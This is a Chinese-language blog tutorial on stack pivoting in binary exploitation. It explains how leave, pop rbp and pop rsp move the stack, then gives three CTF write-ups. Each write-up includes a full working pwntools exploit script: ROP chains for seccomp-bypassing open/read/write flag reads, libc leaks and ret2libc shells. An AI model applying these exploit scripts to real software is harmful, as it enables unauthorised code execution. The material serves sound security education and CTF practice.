+++
date = '2026-03-27T18:00:00+08:00'
draft = false
title = '栈迁移'
categories = ["Pwn"]
series = ["Pwn"]
series_order = 7
summary = "They don't dance on the floor, the floor dances to catch up with their steps..."
+++

韩信带净化，**活跃函数的栈帧由bp和sp划定**，很多时候操作栈帧内外的数据都要通过这两个指针，其中sp主要用于各种**弹栈压栈**，bp则一般作为**寻址基准**定位数据位置。

也就是说，栈和栈指针的关系就好像一个牢不可破的联盟，不过前提是栈指针是正确指向栈底和栈顶的。如果有个故意或不小心的机会把栈指针搞错了位置，这个联盟就要体验一下1991年圣诞节的小活动了。。。（？

## 基本概念

栈迁移顾名思义就是把栈迁走到别的地方，这里的栈指的就是bp和sp划定的区域，所以其本质就是找个机会**控制sp和bp**。问题来了，栈迁移能为我们提供怎样的攻击机会？

举几个例子：

- **最常见的情况**：你需要写一个很长的rop链。但是程序只给了你**极少量的输入空间**，怎么办？我们可以考虑把rop链分成多段，进行**多次输入**，而每一段数据需要存储在不同地方，而栈迁移正好可以给我们这个机会。

- **不太常见的情况**：你需要搞一手ret2text，但是程序里**没有binsh字符串**，你需要自己写一个，而写在栈区的话可能会有很多问题（比如地址随机、容易被其他数据覆盖），这时候我们可以考虑栈迁移，**迁移到其他位置写入**。

- **极端情况**：你需要泄露libc基址，但是程序**一点可用的gadget都没有**，这时如果我们栈迁移，有可能有机会去**泄露程序中的一些数据**，从而得到基址。

总之，栈迁移的目的是**打破程序刻意设计的一些潜在的限制**，方便我们更好地实施攻击，而这个限制**大部分都是输入长度限制**，所以在栈迁移中，更重要的一般是**控制sp**，那么怎么去控制呢？

## 基本原理

### 迁移到哪

首先考虑我们要迁移到哪里，我们迁移的目的地必须是一个**可读可写的区域**，在此之外可以根据你的具体需求酌情考虑需不需要可执行权限。选哪里比较好呢？一般是`.bss`**段**，相比于其他段**比较靠后**，在此之外根据你的具体需求也可以考虑迁移到数据段或者其他部分。

一般来讲，除非出题人有意给你划一块区域藏起来，程序是不会在这些地方给你留一片没啥用的区域，*你的小心思他们还不知道吗！*不过好在内存映射**按页分配**，即使`.bss`只分配了几十个字节的内存，到了实际的内存空间中，也会**留下大片空白区域**填满一页。所以说虽然我们说迁移到`.bss`段，实际上看中的是ta**附近的这片空白区域**。

gdb调试程序，使用vmmap指令查看各区域的权限：



红框圈上的那块，就是我们想要的区域了，然后我们在ida里看一下这片区域哪部分是被占用的，哪部分是空白的，从而决定迁移的目的地。需要注意的是，如果你要通过栈迁移去调用一些大函数（比如`system`），要注意**函数调用本身开辟栈帧有覆盖其他数据的风险**，实际迁移要**尽可能远离被占用区域**，一般对于`system`来说**0x800字节**是可以的；而如果你要通过栈迁移去**泄露一些数据**，那就得**尽可能靠近被占用区域**，因此这个决定具体地址的过程也比较见仁见智。

### 怎么迁移

栈迁移的本质原理是运用程序中一些**可以改变栈指针的指令**去构建rop链，最常用的指令如下：

- `leave`
  
  等同于`mov rsp, rbp; pop rbp`，如果函数用到栈空间，那么销毁栈帧时就会出现，一般后面紧跟`ret`。**先让sp移动到bp指向的位置，再弹出数据改变bp的值。**

这条指令的特点是在函数销毁栈帧时会出现，程序给了你溢出机会，可以覆盖到存储bp的位置时，**把存储的旧bp换成你想要的地址**，就可以改变bp指向的位置。

除此之外还有一些不是很明显、不是很常用也不是很好用的指令：

- `pop rbp`
  
  当函数没有用到栈空间，sp和bp始终重合时，那么销毁栈帧时会出现，一般后面会紧跟`ret`。**弹出数据直接更改bp的值**。泛用性没有上面强。

- `pop xx / ret`

  弹栈指令，这些都会让sp增加一个单元格（64位即8字节）。注意**弹栈不会清理栈上原有的数据，只是复制一份，移动栈指针**。`ret`指令等同于`pop rip`。

- `push / call`

  压栈指令，这些都会让sp减少一个单元格。`call`等同于`push rip; jmp`。

- `pop rsp`
  
  弹出数据直接更改sp的值，几乎看不到。

## 实战演练

你会发现，常见的指令**更改bp很方便，但是更改sp很困难**！而一般情况下，我们必须要更改sp的值！

有什么办法去随意更改sp为我们想要的值吗？这里就是整个栈迁移比较难以理解的部分了，我们先卖个关子，讲一个打法**不太常见**的题：

### 通过`pop rsp`直接更改sp

**原题：moectf 2025 --- shellbox**

#### 分析

这是一个**静态链接**的程序，库函数全在里面了，gadgets多到批爆，所以`pop rsp`这种东西也是存在的。

程序的main函数如下：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[4]; // [rsp+8h] [rbp-8h] BYREF
  int v5; // [rsp+Ch] [rbp-4h]

  init();
  sandbox();
  v5 = 0;
  puts("You have a box, fill it.");
  read(0LL, &buf, 256LL);
  puts("Now, leave your name..");
  while ( v5 != 1 )
  {
    if ( v5 > 9 )
    {
      puts("Why is it so long?");
      break;
    }
    putchar(62LL);
    read(0LL, &v4[8 * v5++], 8LL);
  }
  puts("Bye!");
  return 0;
}
```

首先在bss段划分了256字节的缓冲区供你写入，然后开始让你栈溢出，不过程序只给你**最多8次**输入机会，**每次8字节**，依次向下溢出，还特地给你来了点小巧思。



`v5`为0时输入可以改写`v5`，而这次写完后`v5`加1变成1，就退出循环了。因此我们最开始就要把`v5`改写为其他数字，比如1，这样写完后加1变为2，就不会退出循环了。但是代价就是**没有机会改写bp**了。不过程序给了你直接修改sp的机会，倒也不算那么损吧。。

```c
__int64 sandbox()
{
  int v0; // r8d
  int v1; // r9d
  int v2; // r8d
  int v3; // r9d
  __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = seccomp_init(0x7FFF0000u);
  seccomp_rule_add(v5, 0, 59, 0, v0, v1);
  seccomp_rule_add(v5, 0, 2, 0, v2, v3);
  return seccomp_load(v5);
}
```

程序还**限制了`execve`和`open`**系统调用，没有办法getshell了，因此需要尝试进行**orw绕过**，只不过o指的是另一个系统调用`openat`，其原型如下：

```c
int openat (int fd, const char *path, int oflag, ... /* mode_t mode */);
// fd：目录文件描述符，我们使用相对目录，需要设置其为AT_FDCWD（-100）
// path：目录
// oflag：参数，我们可以设置为只读ORDONLY（0）
```

orw都是shellcode居多，不过这回是静态链接，库函数都在程序里，我们也可以考虑布置rop链，而布置rop链就遇到了上面最常见的情况：**输入空间不够**，咋办？那就试试栈迁移吧，正好可以迁移到程序设置的缓冲区！

rop链控制的执行流是跟着sp走的，我们又有了直接控制sp的机会，因此这里我们只需要无脑把**rop链分两半**，一半在下面溢出区，另一半放到`.bss`段的缓冲区里。需要注意的是还要留点空间，一部分用来**存储orw读取到的flag**，另一部分需要**存储orw用到的`'flag'`字符串**。总之我们划分的空间大概是这样的：



#### exp

```py
from pwn import *

pop_rdi = 0x0000000000401A40
pop_rsi = 0x0000000000401A42
pop_rdx = 0x0000000000401A44
pop_rsp = 0x00000000004121a8
pop_rax = 0x000000000044bbbb
nop = 0x000000000040192f
xchg_edi_eax = 0x00000000004814c6
buffer = 0x00000000004CEB60
flag = buffer + 0x50 + 11 * 8
ropstart = buffer + 0x50
openat = 0x0000000000442840
read = 0x0000000000442950
write = 0x00000000004429F0
def check():
    if io.poll() is None:
        gdb.attach(io)
        pause()
io = process("./pwn")
# io = connect("127.0.0.1", 34395)

# bss缓冲区的rop链
rop = b'a' * 0x50 + p64(openat) # 0x50字节填充，一会用来存储flag
rop += p64(xchg_edi_eax) + p64(pop_rsi) + p64(buffer) + p64(pop_rdx) + p64(0x50) + p64(read)
rop += p64(pop_rdi) + p64(1) + p64(write) + p64(nop)
rop += b'flag\x00\x00\x00\x00'

io.recvuntil(b'it.')
io.send(rop)

# 栈区的rop链
io.recvuntil(b'name..')
# check()
payload = cyclic(4) + p32(1)
io.send(payload)

payload = p64(pop_rsi)
io.send(payload)

payload = p64(flag)
io.send(payload)

payload = p64(pop_rdi)
io.send(payload)

payload = p64(0xffffffffffffff9c)
io.send(payload)

payload = p64(pop_rdx)
io.send(payload)

payload = p64(0)
io.send(payload)

payload = p64(pop_rsp)
io.send(payload)

payload = p64(ropstart)
io.send(payload)

io.interactive()
```

```terminal
[+] Starting local process './pwn': pid 6341
[*] Switching to interactive mode

>>>>>>>>>Why is it so long?
Bye!
KioAki{_6URN!NG__L0V3__D3SU!!}
This is a test flag! Try to connect to ol-env to[*] Got EOF while reading in interactive
$
```

当然，这个是非预期解法，只是演示一下栈迁移的大概意图，告诉你迁移后的栈可以用来干什么，你会发现我测试用的flag文件没完全打印出来，如果实际flag超过0x50字节（？）就废了。预期解的方法是在bss缓冲区布置orw shellcode，通过rop链用`mprotect`为将缓冲区设置为可执行后直接跳转，所以说这题确实不太对味，接下来看一道正经的栈迁移。

### 通过多次`leave`控制sp

**原题：moectf 2025 --- hardpivot**

#### 分析

下面这个是常见的栈迁移方式，拖入ida，程序的主要逻辑在`vuln`函数里，大概是这样的：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setup();
  vuln();
  puts("See you again!");
  return 0;
}

ssize_t vuln()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("This time I will not give you any gifts again.");
  puts(aASingleStackPi);
  puts("Think back to what you learned from the previous challenges and integrate it comprehensively.");
  puts("You have made it this far—keep going, victory is not far away.");
  printf("> ");
  return read(0, buf, 0x50uLL);
}
```

程序没有后门，需要ret2libc，但是很明显，输入长度限制的死死的。只允许改一个bp和返回地址，什么都干不了。那就栈迁移，由于这次程序没有给我们缓冲区，我们只能自己**找空白区域**，因为要调用`system`，所以得**离`.bss`远一点**。

不过迁移后得给自己留一条后路，所以决定跳转到`vuln`中的`read`，再写点东西。



仔细观察`vuln`的汇编，你会发现这里调用read，就是**通过bp找缓冲区的位置**，而且也是`0x40`字节，这说明我们在迁移的地方构建了一个**完全一样的栈帧**：



怪了，那看起来没啥卵用啊？别急，相比栈区，这里的栈帧我们可以更高效地利用，为什么这么说呢？因为这回，**缓冲区的0x40字节我们也要用上**！直接rop链搞起！

接下来就回收之前卖的关子，我们怎么控制sp？我们需要**先把bp改为预想中sp的值**，想办法用`leave`**将sp移动到bp**，**再把bp改为一开始预想中bp的值**！

回到第二次`read`，我们刚刚在`.bss`段布置了新栈帧，`read`结束后还可以修改一次bp和返回地址，那么我们这次就**把bp移动到sp的位置**。

可惜sp不在这里，怎么让sp过来弹出新bp呢？这时候`leave`的作用就显现出来了，`leave`会**先把sp移动到bp，然后弹出新bp**，这样就可以了！

不过现在sp在bp的位置，bp在sp的位置，怎么换过来呢？别忘了`leave`的作用！我们还有个**返回地址没用，直接改成`leave`**，这样**sp就会移动到bp的位置，也就是我们预想的位置**！

接下来`leave`还有个弹出bp的过程，因此我们还要**在缓冲区顶部再放一个bp**，就能**让bp回到原来的位置**了！当然，如果你认为一次栈迁移不够，还想进行第二次栈迁移，你**也可以把这个值改为下一个栈帧的bp**，或者通过额外的指令更改bp，但是无论如何都要在第三次read之前更改bp；但是如果你不再需要bp，你也就不需要刻意去修改bp了。

整套流程下来是不是有点懵？上流程图：



这样就能用上这0x40字节空间了！当然很多时候因为各种原因，一段rop链用不了全部空间，两段又写不开，还不能拆开任意一段，可能还没完全用完这个栈帧就要开始下一次栈迁移了。这道题也是一样的，第一次迁移可以**写一段泄露libc基址的rop链**，但是之后空间不够了，就得进行第二次迁移去**打ret2libc**，连续迁移大概是这样的：



第二次迁移，我们就可以正常ret2libc了，总之最后脚本是这样的。

#### exp

```py
from pwn import *

def check():
    if io.poll() is None:
        gdb.attach(io)
        pause()
pop_rbp = 0x00000000004011A1
pop_rdi = 0x000000000040119E
read = 0x0000000000401264
leave_ret = 0x000000000040127B
ret = 0x000000000040127C
bss_buf = 0x00000000004040A0
where2stack = bss_buf + 0x800
io = process("./pwn")
# io = connect("127.0.0.1", 44249)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

# check()

io.recvuntil(b'> ')
payload = cyclic(0x40) + p64(where2stack) + p64(read)
io.send(payload)

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
sleep(0.1)
payload = p64(where2stack - 0x40) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(read) + cyclic(0x18) + p64(where2stack - 0x40) + p64(leave_ret)
io.send(payload)

libc.address = u64(io.recv(6) + b'\x00' * 2) - libc.symbols['puts']
log.success("Got libc address: " + hex(libc.address))

system = libc.symbols['system']
binsh = next(libc.search(b'/bin/sh'))
payload = p64(where2stack - 0x40) + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system) + p64(leave_ret) + cyclic(0x10) + p64(where2stack - 0x80) + p64(leave_ret)
io.send(payload)

io.interactive()
```

### 通过bp寻址泄露libc基址

**原题：TSCTF-J 2025 --- pivot**

#### 分析

可以看到上面的两个例子中，bp只是一个**辅助sp迁移**的工具，实际应用中bp有没有可能起到重大作用呢？有的兄弟，但是非常罕见，下面这个题就利用bp寻址机制去**泄露`.bss`段IO File**，看一下主要函数：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  vuln();
  return 0;
}

ssize_t vuln()
{
  _BYTE buf[256]; // [rsp+0h] [rbp-100h] BYREF

  write(1, "welcome, Have fun\n", 0x12uLL);
  return read(0, buf, 0x110uLL);
}
```

程序依然只给了更改bp和返回地址的机会，但是这一次，程序中内容极少，没有机会也没有什么数据可以用来泄露libc基址。。。等等，真的没有数据吗？

仔细观察`.bss`段开头的两个位置，分别对应了标**准输出和标准输入的文件指针**：



这个指针就**指向libc中对应文件的地址**：



那就好办了，接下来我们需要找个机会去**泄露这个指针**，现在开始迷思，为什么程序会用`write`函数打印字符串，而不是`puts`？

`write`和其他输出函数的区别在于其**第二个参数存储输出字符串地址**，这一点和read相似，**第二个参数存储写入字符串地址**，而`read`中**这个地址通过bp寻址**！



`read`函数是不会改变rsi的值的，也就是说我们先**让rsi指向指针附近**调用一次`read`，再调用`write`，就可以泄露指针！

因此我们考虑**先将rbp迁移到下方的空白区域**，布置完需要的rop链，然后**立刻向上迁移**调用`read`，通过rbp让rsi指向指针附近，这之后我们就可以调用`write`打印指针了！整片内存区域大概是这样：


泄露指针之后我们还需要打ret2libc，栈帧不能留在这里，我们需要向下移动到一片安全的空白区域，整体迁移流程大概是这样的：



接下来就是快乐的ret2libc了！

#### exp

```py
from pwn import *

context.log_level = "debug"
libc = ELF("./libc.so.6")
where2stack = 0x404200
read = 0x00000000004011EA
write = 0x00000000004011DB
leave_ret = 0x0000000000401209
def check():
    while io.poll() is not None:
        continue
    gdb.attach(io)
    pause()
io = process("./pwn")

payload = cyclic(0x100) + p64(where2stack) + p64(read)
io.recvuntil(b'fun\n')
io.send(payload)

sleep(1)
# check()

payload = p64(where2stack + 0x800) + p64(write) + cyclic(0xf0)
payload += p64(where2stack - 0x100) + p64(read)
io.send(payload)

sleep(1)

io.send(b'\n')

io.recv(0x20)
libc.address = u64(io.recv(8)) - 0x000000000021AAA0
log.success("Got libc address: " + hex(libc.address))
pop_rdi = libc.address + 0x000000000002a3e5
ret = pop_rdi + 1
binsh = next(libc.search("/bin/sh"))
system = libc.symbols['system']

payload = p64(where2stack + 0x800 - 0x100) + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system) + cyclic(0xd8)
payload += p64(where2stack + 0x800 - 0x100) + p64(leave_ret)
io.send(payload)

io.interactive()
```

## 后记

本文讲解了栈迁移的基本概念、基本原理以及实操步骤，并挑选了三个例题进行讲解，写的有点乱，本人表示已经尽力去讲清这个东西了（

本来我想按照我自己的学习路线一篇一篇更，但是搞完校招新的这个栈迁移（也就是第三个例题）心血来潮，先肝了一篇栈迁移，版本前瞻了属于是，问就是前面的已经在写了（